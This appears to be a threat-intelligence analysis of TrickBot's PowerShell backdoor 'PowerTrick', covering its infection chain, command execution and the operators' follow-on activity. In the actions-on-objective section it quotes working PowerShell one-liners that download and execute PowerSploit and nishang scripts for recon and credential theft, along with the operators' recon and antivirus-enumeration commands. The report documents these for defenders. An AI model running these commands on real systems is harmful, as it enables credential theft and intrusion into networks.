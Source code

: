 Background
TrickBot is the successor of Dyre [1, 2] which at first was primarily focused on banking fraud in the same manner that Dyre did utilize injection systems. TrickBot has shifted focus to enterprise environments over the years to incorporate many techniques from network profiling, mass data collection, incorporation of lateral traversal exploits. This focus shift is also prevalent in their incorporation of malware and techniques in their tertiary deliveries that are targeting enterprise environments, it is similar to a company where the focus will shift depending on what generates the best revenue. This research follows SentinelLabs discovery of the TrickBot Anchor malware and its nexus to the organized groups and advanced persistent threats.


Graph 1: Image of interactive human network exploitation operator within TrickBot enterprise
PowerTrick Discovery
SentinelLabs research into this PowerShell-based backdoor called “PowerTrick” traces back to the initial infection, we assess with high confidence at least some of the initial PowerTrick infections are being kicked off as a PowerShell task through normal TrickBot infections utilizing a repurposed backconnect module that can accept commands to execute called “NewBCtest”.
Graph 2: Image of PowerTrick execution flow
After the initial stager for the “PowerTrick backdoor” is kicked off, then the actor issues the first command which is to download a larger backdoor. This process is similar to what you see in Powershell Empire with its stager component.
Figure 1: The malware operator issues the first command to download the backdoor.
PowerTrick is designed to execute commands and return the results in Base64 format, the system uses a generated UUID based on computer information as a “botID.”
Figure 2: A unique user ID (UUID) is generated for each bot
The Victim data is then posted back to the controller.
Figure 3: The victim data is posted back to the backend.
PowerTrick is simply designed to execute commands and return results.
Figure 4: Main functionality of PowerTrick
PowerTrick: Actions on Objective
Aside from the PowerTrick backdoor, the criminal actors also commonly utilize other PowerShell utilities to do various tasks. A frequent one utilized was ‘letmein.ps1’ which is a Powershell stager for open-source exploitation framework Metasploit.
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')); write-output "loaded";

iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-SessionGopher.ps1')); write-output "loaded";

iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1')); write-output "loaded";

iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-VaultCredential.ps1')); write-output "loaded";
The letmein script, in particular, is leveraged frequently to pivot the infection to another framework.

Figure 5: The actors download and execute letmein stager.
It is also used to detonate on other systems after pivoting.
Figure 6: use of network drives to download and execute the letmein stager.
The frequently used commands and actions are as follows:

net view
net use
ping systems
net use with usernames to check permissions on systems
WMIC /node:localhost /Namespace:rootSecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
